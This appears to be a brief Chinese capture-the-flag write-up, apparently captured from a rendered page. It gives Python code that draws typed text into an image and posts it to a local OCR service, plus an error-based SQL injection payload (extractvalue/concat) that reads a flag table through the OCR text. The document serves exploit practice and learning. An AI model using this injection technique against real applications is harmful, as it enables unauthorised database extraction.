 ```python
def create_image_with_text(text="A"):
    # 创建一个白色背景的图片，根据文字长度调整宽度
    width = max(400, len(text) * 40)  # 增加宽度
    height = 120  # 增加高度
    img = Image.new('RGB', (width, height), color='white')
    draw = ImageDraw.Draw(img)

    # 使用更清晰的字体
    try:
        font = ImageFont.truetype("Arial.ttf", 48)  # 使用系统字体，增大字号
    except:
        font = ImageFont.load_default()

    # 计算文字位置使其居中
    text_bbox = draw.textbbox((0, 0), text, font=font)
    text_width = text_bbox[2] - text_bbox[0]
    text_height = text_bbox[3] - text_bbox[1]
    x = (width - text_width) // 2
    y = (height - text_height) // 2

    # 绘制黑色文字，增加抗锯齿
    draw.text((x, y), text, fill='black', font=font, stroke_width=1)

    # 将图片转换为字节流
    img_byte_arr = io.BytesIO()
    img.save(img_byte_arr, format='PNG', dpi=(300, 300))  # 提高DPI
    img_byte_arr = img_byte_arr.getvalue()

    # 保存测试图片
    open('test.png', 'wb').write(img_byte_arr)

    return img_byte_arr


def main():
    while True:
        payload = input("请输入要上传的图片内容：")
        # 上传图片到服务器
        upload_url = "http://127.0.0.1:8000/ocr"
        print(upload_image(payload, upload_url))



if __name__ == "__main__":
    main()

```

使用报错注入OCR
```sh
# 1123' and (extractvalue(' ~ ', concat(' ~ ' , (select group_concat( flag ) from ocr_db.flag ) ) ) ) ) #

python3 main.py
```

